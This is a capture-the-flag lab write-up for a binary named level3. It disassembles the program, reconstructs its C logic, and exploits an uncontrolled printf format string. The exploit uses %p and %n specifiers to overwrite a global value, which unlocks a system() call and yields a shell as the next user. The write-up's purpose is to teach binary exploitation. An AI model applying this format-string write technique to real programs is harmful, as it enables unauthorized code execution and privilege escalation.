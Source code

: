 level3
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level3
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

It calls another function v:

```nasm
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

We can see that there is a system call, but to reach it, a specific value needs to be set to0x40.
```nasm
...
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   ...
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

The stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | *EBP           |   4  |
|  0x004  | *EIP           |   4  |

There is a call to printf with a user-controlled stack-buffer as first argument.

In c, the procedure would look like this:
```c
FILE *stdin = *(FILE**)0x8049860;
fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x804988c == 0x40)
{
	fwrite(...);
	system(...);
}
```

Exploitation
------------

With the use of some format-specifiers, we can easily print values from the stack, as if they where arguments:
```c
./level3 <<< "%p"
```
```c
0x200
```
Here we can see that we are able to print the length of the buffer, which was the second argument of the previous function: fgets.

Let's see if we can get up to our own buffer.
Remember: Arguments are pushed on the stack in reverse order.
That means [esp] is the first argument passed on the stack:
```nasm
...
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
...
```
Indeed, it contains the address of our buffer at ebp - 0x208, or esp + 0x10.
Since the buffer starts at esp + 0x10, we need to pop 16 bytes off the stack until we reach it.

This can be done using the %p format specifier, which prints 32 bit pointers.
We need to use 4 of them so that we have a 4 * 4 = 16 bytes offset.

```sh
./level3 <<< "AAAA %p %p %p %p"
```
```c
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Alright, so we can control the format string, as well the fourth argument of the printf call. But what can we do with this?

```sh
man 3 printf
```
>BUGS
>>Because  sprintf()  and  vsprintf() assume an arbitrarily long string, callers must becareful not to overflow the actual space; this is often impossible  to  assure.
>>Note that  the length of the strings produced is locale-dependent and difficult to predict.Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).
>
>>Code such as printf(foo); often indicates a bug, since foo may contain a %  character.If  foo  comes from untrusted user input, it may contain %n, causing the printf() callto write to memory and creating a security hole.

In our case, the executable is affected by the second bug. We can write to a location provided by an argument using the %n specifier.

The %n modifiers writes the length of the preceding formatted input. So if we want to write 0x40 to memory location 0x804988c, we need to put the address at the start of our buffer, pop 3 arguments off the stack using the %p specifier, and pad the input to reach 40-bytes before placing the %n specifier.

```sh
ADDRESS="804988c"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(echo "$BYTES%p%p%45p%n"; cat) | ./level3
```
```
0x2000xb7fd1ac0                                   0xb7ff37d0
Wait what?!
whoami
level4
```
